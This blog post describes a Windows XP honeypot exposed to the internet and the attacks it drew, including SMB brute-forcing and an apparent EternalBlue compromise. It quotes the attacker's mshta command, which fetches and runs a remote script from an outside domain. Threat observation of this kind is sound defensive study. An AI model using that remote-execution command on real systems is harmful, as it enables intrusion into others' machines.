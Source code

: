 I used Windows XP Professional SP3 with no additional updates for this virtual machine, and disabled the firewall while I was at it to achieve the maximum possible exposure. It's worth noting that the firewall may have failed anyway even if I kept it on just because it was so outdated. With this, I then enabled the above showcased port forwarding rule, which promptly forwarded all incoming traffic to the VM. To monitor it, I used an old version of Process Explorer by Sysinternals, like Eric Parker. This would allow me to monitor active threads and applications, especially their active TCP/IP connections.

## The results

I started this honeypot on 1/16/2025 at around 6 AM CST. Much traffic would be miscellaneous, but around an hour later I would get the first probing from an outside IP address onto SMB. SMB is [Server Message Block](https://en.wikipedia.org/wiki/Server_Message_Block), used for sharing various things on Windows like printers, files, and more on a network. This is normally intended for local networks, but will also function over the public Internet as long as a connection can be made. It is also highly insecure in earlier versions like SMBv1 such as here on Windows XP, being a common entry of attack.

SMB would eventually start to be bruteforced several hours later by different IP addresses that likely probed and found the VM I had set out, trying to access resources such as `\Administrator`, `\admin`, `\hp`, `\ADMINSOP`, `\DefaultAccount`, `\Invitado`, and more. Eventually, 7 hours later, an IP address would attempt to seemingly send SMB packets sent with the number 3, which would continue until the machine eventually crashed as seen below:

![crashed VM](/images/xp-honeypot/crashed.png)

After this, I of course restarted the VM and business would continue as normal until big things started happening. An IP address `117.217.42.26` would send malformed SMB packets to the virtual machine, seemingly using the [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) exploit to gain access. This would be successful as the machine was not patched against EternalBlue, although Microsoft *did* patch this for XP through the [MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) security bulletin. Once the actual hijacking was completed, this is where the interesting stuff began.

![new threads post-exploitation](/images/xp-honeypot/threads.png)

As seen above, processes started running that should not have been normally running - for example, svchost started running a command prompt session which was running `mshta.exe`, which can be [abused by attackers](https://attack.mitre.org/techniques/T1218/005/) (such as in this case) to run external scripts that can advance their objectives. Additionally, a `netsh.exe` session was spun up in a separate command prompt. For the purposes of this article, our focus is going to be on `mshta.exe` as this seems to have been how attackers established their control over the machine.

![the mshta command](/images/xp-honeypot/mshta2.png)

The command used here was `mshta http://w.zz3r0.com/page.html?pFUCK-G1XZ20`, with the latter part being the name of the virtual machine. Although I could not get this page to actually load on my own machines, the domain is registered as of the writing of this article using a PARKTONS nameserver. I assume this is a pre-crafted page designed to drop files related to exploiting the machine, as you will see later. More is in the TCP/IP tab:

![linode????](/images/xp-honeypot/mshta.png)
